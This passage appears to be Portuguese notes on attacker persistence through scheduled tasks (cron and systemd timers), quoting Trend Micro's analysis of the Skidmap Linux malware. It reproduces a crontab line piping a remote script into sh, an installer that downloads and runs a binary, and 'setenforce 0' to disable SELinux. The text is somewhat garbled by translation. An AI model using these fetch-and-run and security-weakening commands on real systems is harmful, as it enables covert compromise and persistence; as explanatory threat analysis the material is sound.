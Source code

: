**REFERÊNCIA:** https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490866(v=technet.10)?redirectedfrom=MSDN

.003 **COMPARSA:** Os atacantes utilizam agendamento de tarefas para uma execução de código malicioso chamado .cron. É um programador de trabalho baseado no tempo para sistemas operacionais semelhantes ao Unix. Contém o cronograma de entradas de cron a serem executadas e horários especificos.

**Exmplo de procedimento:** O malware se instala via crontab (lista de comandos que são executados em um cronograma regular) em sua máquina de destino, como mostrado abaixo:

*/1 * * * * curl -fsSL hxxp://pm[.]ipfswallet[.]tk/pm.sh | sh

O script de instalação pm.sh então baixa o "pc" binário principal (detectado pela Trend Micro como Trojan.Linux.SKIDMAP.UWEJX):

if [ -x "/usr/bin/wget"  -o  -x "/bin/wget" ]; then
   wget -c hxxp://pm[.]ipfswallet[.]tk/pc -O /var/lib/pc && chmod +x /var/lib/pc && /var/lib/pc elif [ -x "/usr/bin/curl"  -o  -x "/bin/curl" ]; then
   curl -fs hxxp://pm[.]ipfswallet[.]tk/pc -o /var/lib/pc && chmod +x /var/lib/pc && /var/lib/pc elif [ -x "/usr/bin/get"  -o  -x "/bin/get" ]; then
   get -c hxxp://pm[.]ipfswallet[.]tk/pc -O /var/lib/pc && chmod +x /var/lib/pc && /var/lib/pc elif [ -x "/usr/bin/cur"  -o  -x "/bin/cur" ]; then
   cur -fs hxxp://pm[.]ipfswallet[.]tk/pc -o /var/lib/pc && chmod +x /var/lib/pc && /var/lib/pc else
   url -fs hxxp://pm[.]ipfswallet[.]tk/pc -o /var/lib/pc && chmod +x /var/lib/pc && /var/lib/pc fi
   
   Após a execução do binário "pc", ele diminuirá as configurações de segurança da máquina afetada. Se o arquivo /usr/sbin/setenforce existir, o malware executará o comando, setenforce 0. Este comando configura o módulo SELinux (Security-Enhanced Linux) do sistema, que fornece suporte nas políticas de controle de acesso do sistema, no modo permissivo — ou seja, definindo a política SELinux para que não seja aplicada. 
   
   **REFERÊNCIA:** https://www.trendmicro.com/en_us/research/19/i/skidmap-linux-malware-uses-rootkit-capabilities-to-hide-cryptocurrency-mining-payload.html
   
.004 **Temporizadores:**  Os temporizadores sistematos são arquivos unitários com extensão de arquivo que controlam os serviços. Os temporizadores podem ser definidos para serem executados em um evento de calendário ou após um período de tempo em relação a um ponto de partida. Eles podem ser usados como uma alternativa ao Cron em ambientes Linux..timer. Os temporizadores sistematados podem ser ativados remotamente através do utilitário da linha de comando, que opera sobre ssh.

**Exemplo de procedimento:** Temporizador mmonotônico  que começa por 15 minutos após a inicialização e toda semana equanto o sistema estiver funcionando.  

/etc/systemd/system/foo.timer
[Unit]
Description=Run foo weekly and on boot

[Timer]
OnBootSec=15min
OnUnitActiveSec=1w

[Install]
WantedBy=timers.target

No exemplo abaixo o serviço é executado nos primeiros quatro dias de cada mês às 12:00 pm, mas apenas se esse dia for uma segunda ou uma terça-feira.
